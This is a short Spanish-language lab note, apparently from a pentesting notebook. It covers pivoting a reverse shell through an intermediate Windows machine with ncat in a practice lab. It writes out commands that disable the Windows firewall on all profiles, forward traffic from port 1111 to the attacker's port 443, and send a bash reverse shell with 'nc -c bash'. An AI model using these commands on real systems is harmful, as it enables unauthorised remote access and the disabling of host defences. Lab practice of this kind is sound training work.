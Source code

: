 [[Lab Pivoting, Tunneling And Port-Forwarding - Synfonos 1-2-3]]
#pivoting 
En windows, en vez de usar socat podemos usar ncat para permitir el tráfico de una reverse shell por parte de una máquina 3 pasando por una máquina windows intermedia. Por ejemplo, desde el Kali nos ponemos a la escucha:
![[Pasted image 20240615203300.png]]

A continuación, en la máquina intermedia podemos desactivar el firewall para evitar tener problemas:
```bash
netsh advfirewall set allprofiles state off
```

![[Pasted image 20240615203306.png]]

Ahora desde la máquina Windows intermedia decimos que todo el tráfico que recibamos por ejemplo por el puerto 1111 lo vamos a enviar al puerto 443 de la máquina atacante:
```bash
ncat -l -p 1111 -c "ncat 192.168.0.20 443"
```

![[Pasted image 20240615203310.png]]

Entonces ahora desde la máquina 3 enviamos la reverse shell a la máquina windows 7 intermedia por el puerto 1111 y deberíamos de recibir la conexión en nuestro Kali:
```bash
nc -c bash 10.10.10.129 1111
```

![[Pasted image 20240615203316.png]]

Y recibimos la conexión:

![[Pasted image 20240615203319.png]]